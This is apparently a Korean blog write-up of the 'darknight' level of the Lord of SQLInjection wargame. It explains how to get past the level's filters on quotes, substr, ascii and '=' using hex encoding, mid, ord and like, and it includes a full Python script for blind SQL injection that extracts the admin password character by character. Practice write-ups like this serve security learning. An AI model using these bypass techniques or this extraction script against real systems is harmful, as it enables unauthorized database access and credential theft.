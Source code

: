 ```yaml
---
title: "[ Lord of SQLInjection ] darknight"
date: 2023-03-25T10:52:29.014Z
categories: ['Wargame', 'Lord of SQLInjection']
tags: ['los', "web"]
---
```

![](/images/de1e47c1-d06a-41a5-b7d3-e03ca145d533-image.png)

<br>
<br>

### **문제 분석**
---

1. 싱글쿼터, substr, ascii, = 를 피러링 하고 있다
2. darknight의 pw를 찾으면 문제를 풀 수 있다.

<br>
<br>

### **문제 풀이**
---

싱글쿼터이 필터링 되기 때문에 admin을 입력하는데 제한이 된다.

또한 기존에 사용하던 함수 substr 등을 사용할 수 없다.

<br>

각 필터링은 다음과 같이 우회할 수 있다.
>
* 싱글쿼터 -> admin을 hex값으로 입력
* substr -> mid
* ascii -> ord

<br>

다음과 같은 코드로 문제를 해결할 수 있다.

```python
import requests

cookie = {'PHPSESSID': '사용자세션'}
address = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'

def find_length():
    pw_len = 1
    while 1:
        url = f"{address}?no=999 || id like 0x61646d696e %26%26 length(pw) like {pw_len}%23"
        res = requests.get(url, cookies=cookie)
        if "Hello admin" in res.text:
            print(f'[+] Password Length : {pw_len}')
            return pw_len
        pw_len += 1

def find_password(pw_len):
    answer = ''

    for i in range(1,pw_len+1):
        for j in range(48,123):
            if 58<= j <=64: continue;
            if 91<= j <=96: continue;
            url = f"{address}?no=999 || id like 0x61646d696e %26%26 ord(mid(pw,{i},1)) like {j}%23"
            res = requests.get(url, cookies=cookie)
            if "Hello admin" in res.text:
                answer += chr(j)
                break
    print(f'[+] Find Password : {answer}')

find_password(find_length())
```

![](/images/603b5d91-57d8-4de3-ad13-5bec988258cf-image.png)
